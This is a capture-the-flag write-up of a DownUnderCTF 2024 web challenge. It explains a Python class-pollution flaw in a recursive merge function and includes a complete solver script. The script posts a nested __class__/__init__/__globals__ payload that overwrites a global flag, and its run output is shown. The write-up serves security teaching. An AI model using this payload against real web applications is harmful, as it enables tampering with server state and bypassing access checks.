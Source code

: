 ![[68747470733a2f2f66696c65732e636174626f782e6d6f652f766c6e696b692e706e67.png]]
We were given a web application made by a group of students and we have been "hired" to test it how safe actually it is.

Started by looking at the source code and we saw in the routes.py a flag variable, so we knew that we were on the right path to look for. 

Some routes that we might want to check them up were:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

In the utils.py: 
```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

We can see that in the get_flag function, it does a boolean check too see if the `flag == "true"`
and if it does it returns the flag
But how can we change it to true?
The data that goes to merge can overwrite values cause of bad implementation, so we can exploit that vulnerability to change the value of the flag value. 
This vulnerability called **Python Prototype Pollution**. 
You can read more about this attack from hacktricks that helped me to complete this challenge.
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution

In the CTF I did manually with burp and just intercept the request and inject it there the code, but after the CTF ends I wrote a solver script with the steps of the exploit.
Here it is:

```python
from requests import Session

# setting up the paths of the url
base_url = "https://web-co2-19ca2661836e6d89.2024.ductf.dev"
register_url = base_url + "/register"
login_url = base_url + "/login"
save_feedback_url = base_url + "/save_feedback"
get_flag_url = base_url + "/get_flag"

# prototype pollution payload
payload = {

    "title": "test",
    "content": "test",
    "rating": "1",
    "referred": "vein",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}

register_user = {
    "username": "vein",
    "password": "vein"
}

with Session() as session:
    # step 1: register a user
    r = session.post(register_url, data=register_user)
    print("Register status:", r.status_code)

    # step 2: login
    login_user = register_user
    r = session.post(login_url, data=login_user)
    print("Login status:", r.status_code)

    # just grab the cookie for the session
    cookies = session.cookies
    print(f"Cookies after login: {cookies}")

    # step 3: submit the payload
    r = session.post(save_feedback_url, json=payload)
    print("Submit payload status:", r.status_code)

    # step 4: get the flag
    r = session.get(get_flag_url)
    print("Get flag status:", r.status_code)
    print("Get flag response:", r.text)
```

And we got the flag!
```bash
┌──(vein㉿vein)-[~/sec/DownUnderCTF_2024]
└─$ python3 exploit.py
Register status: 200
Login status: 200
Cookies after login: <RequestsCookieJar[<Cookie session=.eJwlzjEOwjAMheG7eGZw4thxehkU17ZgbemEuDtB6G1v-PS_4Z5HnA_YXscVN7g_HTZgqTnqDCdjbSE7tkamLlP3IULdUqK6Ik-nijRQy8ywQZGiVazWZuzaWXpbm4iFCQeHD7HIpNZ07336DyjL6H09mssOCYYVcp1x_GsKfL5_2y5G.Zo2SnA.V-bnliYnsW1jW7U8ZJ15g11Lnq4 for web-co2-19ca2661836e6d89.2024.ductf.dev/>]>
Submit payload status: 200
Get flag status: 200
Get flag response: DUCTF{_cl455_p0lluti0n_ftw_}
```
